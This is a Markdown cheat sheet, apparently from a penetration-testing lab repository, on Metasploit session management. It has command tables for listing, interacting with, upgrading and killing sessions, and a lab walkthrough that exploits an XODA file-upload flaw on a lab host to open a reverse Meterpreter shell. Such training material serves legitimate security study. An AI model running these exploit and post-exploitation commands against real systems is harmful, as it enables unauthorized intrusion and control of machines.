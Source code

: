 ## ⚙️ Advanced Session Management Options

### Core Management Commands:
| Command | Purpose | Example |
|---------|---------|---------|
| `sessions -l` | List all active sessions | `sessions -l` |
| `sessions -i 1` | Interact with session 1 | `sessions -i 1` |
| `sessions -k 1` | Kill session 1 | `sessions -k 1` |
| `sessions -K` | Kill all sessions | `sessions -K` |
| `background` | Background current session | `background` |
| `sessions -u 1` | Upgrade session to meterpreter | `sessions -u 1` |

### Session Information Commands:
| Command | Purpose | Example |
|---------|---------|---------|
| `sessions -v` | Verbose session listing | `sessions -v` |
| `sessions -q` | Quiet session listing | `sessions -q` |
| `sessions -s script` | Run script on sessions | `sessions -s migrate -i 1` |
| `sessions -C command` | Execute command on sessions | `sessions -C "getuid" -i 1` |

### Multi-Session Operations:
| Command | Purpose | Example |
|---------|---------|---------|
| `sessions -c cmd` | Execute command on all sessions | `sessions -c "sysinfo"` |
| `sessions -i 1,2,3` | Interact with multiple sessions | `sessions -i 1,2,3` |
| `sessions -k 1-5` | Kill range of sessions | `sessions -k 1-5` |
| `sessions -u 1-3` | Upgrade multiple sessions | `sessions -u 1-3` |

## 🧪 Real Lab Examples

### Example 1: Basic Session Establishment and Management
```bash
# Phase 1: Establish initial session via XODA exploit
msf6 > use exploit/unix/webapp/xoda_file_upload
msf6 exploit(unix/webapp/xoda_file_upload) > set RHOSTS demo1.ine.local
msf6 exploit(unix/webapp/xoda_file_upload) > set LHOST 192.63.4.2
msf6 exploit(unix/webapp/xoda_file_upload) > exploit

# Output: Session establishment
# [*] Meterpreter session 1 opened (192.63.4.2:4444 → 192.63.4.3:55022)

# Phase 2: Background session for multi-tasking
meterpreter > background
# [*] Backgrounding session 1...

# Phase 3: List and verify session
msf6 exploit(unix/webapp/xoda_file_upload) > sessions -l
# Active sessions
# ===============
# Id  Name  Type                     Information  Connection
# --  ----  ----                     -----------  ----------
```